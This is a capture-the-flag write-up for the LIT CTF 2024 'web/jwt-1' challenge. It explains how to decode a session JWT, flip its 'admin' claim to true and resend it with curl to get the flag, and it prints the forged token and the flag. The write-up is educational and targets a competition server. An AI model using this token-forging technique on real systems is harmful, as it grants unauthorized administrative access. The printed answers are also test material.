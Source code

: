 # LIT CTF 2024: web/jwt-1
**Title:** web/jwt-1

**Description:** Welcome to my latest website! In an effort to modernize, I've moved away from traditional cookies and adopted a more advanced authentication method. Say goodbye to sessions forever! Give it a try at [http://litctf.org:31781/](http://litctf.org:31781/).
## Solution:
The description hints at the use of cookies for authentication. Here’s how you can solve it:

### Step 1: Obtain the Cookie:
Visit the site, sign up, log in, and try clicking the "GET FLAG" button. You’ll receive an `Unauthorized` response.

### Step 2: Analyze the Request:
Use your browser’s Developer Tools to inspect the request sent to [http://litctf.org:31781/flag](http://litctf.org:31781/flag). Here’s a sample `curl` command for reference:

```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6ZmFsc2V9.VPpGN6m^%^2BrNwhg^%^2BDSZ^%^2BGYDYV24eDA1ygIvW^%^2Fu50x^%^2FcSY^" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

### Step 3: Modify the JWT Token:
Use an online tool like [jwt.io](https://jwt.io/) to decode and modify the JWT token. Change the `admin` field from `false` to `true`. 

By tampering with the JWT, you can gain the necessary authorization to access the flag. 

### Step 4: Send the request with tampered JWT:
For this I used an online tool [Run Curl Commands Online (reqbin.com)](https://reqbin.com/curl) and sent the request:
```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6dHJ1ZX0.REbM2gVSy32YPjfXU-VeWGG4xTfdAn3RkFRiRtJHV3E" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

And the response we get is our flag: `LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`
